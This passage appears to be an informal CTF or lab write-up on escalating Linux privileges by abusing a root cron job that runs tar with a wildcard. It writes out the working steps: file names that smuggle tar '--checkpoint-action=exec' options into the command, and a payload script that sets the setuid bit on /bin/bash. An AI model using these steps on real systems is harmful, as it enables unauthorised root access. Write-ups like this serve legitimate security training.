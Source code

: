 So that script is running on cron with root priveleges.
Lets check that out.
![](Pasted%20image%2020250306144242.png)

Hmm so we should exploit this.

Hmm so what we are gonna do here is exploit that process.
`tar czf $dest/$archive_file $backup_files`

By `--checkpoint-action` feature of tar.
To understand this you can do chatGPT or can find many documents.

[Exploiting tar with wildcard](https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa)

this can explain it in detain.

And one more thing,we could exploit this because of the use of wildcard`*`.
So that wildcard will specify all files in a folder.

So lets start exploiting.
We gonna use `--checkpoint-action=exec` parameter to exploit.

So lets start.
```
1.echo "" > '--checkpoint=1'  
2.echo "" > '--checkpoint-action=exec=sh privesc.sh'
(it will create a file name those parameter used in tar to trick tar)
3.Create a malicious file privesc.sh which will be executed as root
we can create a simple line like this.
`chmod 4777 /bin/bash`
4.Now the cronjob will execute that script which contain a tar command doing its work.So it will be executes cause at last cause of out files the full tar command would look like this.
tar czf /var/backups/exploit_backup.tgz --checkpoint=1 --checkpoint-action=exec=sh /home/server-management/Documents/*
(which is executing our malicious .sh file which will help us in privelege escalation.)
5.Now we have to wait a bit and its done.

```
